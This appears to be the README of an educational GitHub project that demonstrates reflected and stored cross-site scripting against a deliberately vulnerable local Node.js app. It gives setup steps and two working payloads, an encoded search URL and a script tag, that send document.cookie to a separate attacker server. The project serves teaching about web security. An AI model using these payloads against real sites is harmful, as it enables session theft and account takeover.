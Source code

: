# XSS Demo
A simple web application to demonstrate reflected and stored cross-site scripting.

![screenshot](screenshot.png "screenshot")

### Requirements
- [Node.js](https://nodejs.org/en/download/)
- [npm](https://www.npmjs.com/) (comes with Node.js)

### Installation
```bash
git clone https://github.com/nicwoj/csci-xss-demo.git
cd csci-xss-demo
npm install
```

### Running the project
Start the vulnerable web app (http://localhost:3001/).
```bash
node index.js
```

Start the attacker's server.
```bash
cd attack-server
node index.js
```

### Adding a post
To create a new post, input a title and body under **Make a post** and click the **Post** button. 
New posts are added to the bottom of the **View previous posts** list.

### Searching
To search through existing posts, input a search query under **Search** and click the **Search** button. 
The search is case sensitive and looks for an exact match within each post's title and body.
Search queries can also be entered using http://localhost:3001/?search=.

### Clearing existing posts
Posts can be cleared by clicking the transparent **Clear** button in the top left corner of the page.

### Toggling input encoding
Input is encoded when the toggle switch in the top right corner of the page is turned on. 
Its state is saved when the page is refreshed.

## Reflected XSS Example
The following URL can be delivered to a target to execute a reflected cross-site scripting attack:
```
http://localhost:3001/?search=%3Cimg%20src%3D%22x%22%20onerror%3D%22var%20img%20%3D%20document.createElement(%27img%27)%3B%20img.src%20%3D%20%27http%3A%2F%2Flocalhost%3A3000%2F%3Fdata%3D%27%20%2B%20document.cookie%3B%20document.querySelector(%27body%27).appendChild(img)%3B%22%3E
```
The target's session cookie is expected to appear within the attacker's console window when the URL is visited.

## Stored XSS Example
The following script can be posted by the attacker to execute a stored cross-site scripting attack:
```html
<script>new Image().src='http://localhost:3000/?data='+document.cookie</script>
```
The target's session cookie is expected to appear within the attacker's console window each time the page is loaded.

